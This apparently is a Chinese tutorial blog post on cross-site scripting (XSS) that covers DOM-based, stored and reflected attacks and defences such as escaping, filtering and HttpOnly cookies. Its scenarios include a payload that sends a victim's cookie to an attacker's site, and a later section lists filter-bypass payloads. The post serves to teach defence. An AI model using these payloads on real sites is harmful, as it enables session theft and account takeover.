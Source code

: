 title: XSS攻击及预防
date: 2017-02-18 14:45:23
tags: [网络安全]
---

## XSS攻击是什么
- XSS又称CSS，全称Cross SiteScript跨站脚本攻击的缩写，是一种网站应用程序的安全漏洞攻击，是代码注入的一种。
- 通常是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。
- 这些恶意网页程序通常是JavaScript，但实际上也可以包括Java，VBScript，ActiveX，Flash或者甚至是普通的HTML。
- 攻击成功后，攻击者可能得到更高的权限（如执行一些操作）、私密网页内容、会话和盗取用户Cookie、破坏页面结构、重定向到其它网站等

### XSS攻击基本原理——代码注入

在web的世界里有各种各样的语言，于是乎对于语句的解析大家各不相同，有一些语句在一种语言里是合法的，但是在另外一种语言里是非法的。这种二义性使得黑客可以用代码注入的方式进行攻击——将恶意代码注入合法代码里隐藏起来，再诱发恶意代码，从而进行各种各样的非法活动。只要破坏跨层协议的数据/指令的构造，我们就能攻击。
历史悠久的`SQL注入`和`XSS注入`都是这种攻击方式的典范。现如今，随着参数化查询的普及，我们已经离`SQL注入`很远了。但是，历史同样悠久的`XSS`却没有远离我们。
`XSS`的基本实现思路很简单——比如`持久型XSS`通过一些正常的站内交互途径，例如发布评论，提交含有`JavaScript`的内容文本。这时服务器端如果没有过滤或转义掉这些脚本，作为内容发布到了页面上，其他用户访问这个页面的时候就会运行这些脚本，从而被攻击。

攻击分类举例
### DOM-based XSS
基于DOM的XSS，通过对具体DOM代码进行分析，根据实际情况构造dom节点进行XSS跨站脚本攻击，该攻击特点是中招的人是少数人。
**场景一**：
当我登录a.com后，我发现它的页面某些内容是根据url中的一个叫content参数直接显示的，猜测它测页面处理可能是这样，其它语言类似： 
```html
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<!DOCTYPEhtmlPUBLIC"-//W3C//DTD HTML 4.01 Transitional//EN""http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
   <title>XSS测试</title>
</head>
<body>
   页面内容：<%=request.getParameter("content")%>
</body>
</html>
```

我知道了Tom也注册了该网站，并且知道了他的邮箱(或者其它能接收信息的联系方式)，我做一个超链接发给他，超链接地址为：http://www.a.com?content=<script>window.open(“www.b.com?param=”+document.cookie)</script>，当Tom点击这个链接的时候(假设他已经登录a.com)，浏览器就会直接打开b.com，并且把Tom在a.com中的cookie信息发送到b.com，b.com是我搭建的网站，当我的网站接收到该信息时，我就盗取了Tom在a.com的cookie信息，cookie信息中可能存有登录密码，攻击成功！这个过程中，受害者只有Tom自己。那当我在浏览器输入a.com?content=<script>alert(“xss”)</script>，浏览器展示页面内容的过程中，就会执行我的脚本，页面输出xss字样，这是攻击了我自己，那我如何攻击别人并且获利呢？

### 持久型XSS
也叫存储型XSS——主动提交恶意数据到服务器，攻击者在数据中嵌入代码，这样当其他用户请求后，服务器从数据库中查询数据并发给用户，用户浏览此类页面时就可能受到攻击。由于其攻击代码已经存储到服务器上或者数据库中，所以受害者是很多人。可以描述为:恶意用户的HTML或JS输入服务器->进入数据库->服务器响应时查询数据库->用户浏览器。

**场景二**：
a.com可以发文章，我登录后在a.com中发布了一篇文章，文章中包含了恶意代码，<script>window.open(“www.b.com?param=”+document.cookie)</script>，保存文章。这时Tom和Jack看到了我发布的文章，当在查看我的文章时就都中招了，他们的cookie信息都发送到了我的服务器上，攻击成功！这个过程中，受害者是多个人。Stored XSS漏洞危害性更大，危害面更广。

### 反射型XSS
反射性XSS，也就是被动的非持久性XSS。诱骗用户点击URL带攻击代码的链接，服务器解析后响应，在返回的响应内容中隐藏和嵌入攻击者的XSS代码，被浏览器执行，从而攻击用户。
URL可能被用户怀疑，但是可以通过短网址服务将之缩短，从而隐藏自己。

### 使用XSS Filter
- 输入过滤，所有用户输入都是不可信的。”（注意: 攻击代码不一定在<script></script>中），对用户提交的数据进行有效性验证，仅接受指定长度范围内并符合我们期望格式的的内容提交，阻止或者忽略除此外的其他任何数据。

  | less-than character (<)                                      | &lt;                                                     |
  | ------------------------------------------------------------ | -------------------------------------------------------- |
  | greater-than character (>)                                   | &gt;                                                     |
  | ampersand character (&)                                      | &amp;                                                    |
  | double-quote character (")                                   | &quot;                                                   |
  | space character( )                                           | &nbsp;                                                   |
  | Any ASCII code character whose code is greater-than or equal to 0x80 | &#<number>, where <number> is the ASCII character value. |

比如用户输入：<script>window.location.href=”http://www.baidu.com”;</script>，保存后最终存储的会是&lt;script&gt;window.location.href=&quot;http://www.baidu.com&quot;&lt;/script&gt;在展现时浏览器会对这些字符转换成文本内容显示，而不是一段可执行的代码。



- 输出转义，当需要将一个字符串输出到Web网页时，同时又不确定这个字符串中是否包括XSS特殊字符，为了确保输出内容的完整性和正确性，输出HTML属性时可以使用HTML转义编码（HTMLEncode）进行处理，输出到<script>中，可以进行JS编码。

### 使用 HttpOnly Cookie
将重要的cookie标记为httponly，这样的话当浏览器向Web服务器发起请求的时就会带上`cookie`字段，但是在`js`脚本中却不能访问这个cookie，这样就避免了XSS攻击利用`JavaScript`的`document.cookie`获取`cookie`。

### CSP策略

单篇说

### 困难和幸运

过滤 Html 标签能否防止 XSS? 请列举不能的情况?

用户除了上传

```
<script>alert('xss');</script>
```

还可以使用图片 url 等方式来上传脚本进行攻击

```
<table background="javascript:alert(/xss/)"></table>
<img src="javascript:alert('xss')">
```

还可以使用各种方式来回避检查, 例如空格, 回车, Tab

```
<img src="javas cript:
alert('xss')">
```

还可以通过各种编码转换 (URL 编码, Unicode 编码, HTML 编码, ESCAPE 等) 来绕过检查

```
<img%20src=%22javascript:alert('xss');%22>
<img src="javascrip&#116&#58alert(/xss/)">
```

真正麻烦的是，在一些场合我们要允许用户输入HTML，又要过滤其中的脚本。这就要求我们对代码小心地进行转义。否则，我们可能既获取不了用户的正确输入，又被XSS攻击。
幸好，由于XSS臭名昭著历史悠久又极其危险，现代web开发框架如`vue.js`、`react.js`等，在设计的时候就考虑了XSS攻击对html插值进行了更进一步的抽象、过滤和转义，我们只要熟练正确地使用他们，就可以在大部分情况下避免XSS攻击。
同时，许多基于`MVVM`框架的`SPA`（单页应用）不需要刷新URL来控制view，这样大大防止了XSS隐患。另外，我们还可以用一些防火墙来阻止XSS的运行。

## 参考
https://blog.csdn.net/ghsau/article/details/17027893

https://www.imooc.com/article/13553

https://blog.csdn.net/u011781521/article/details/53894399

https://elemefe.github.io/node-interview/#/sections/zh-cn/security?id=xss


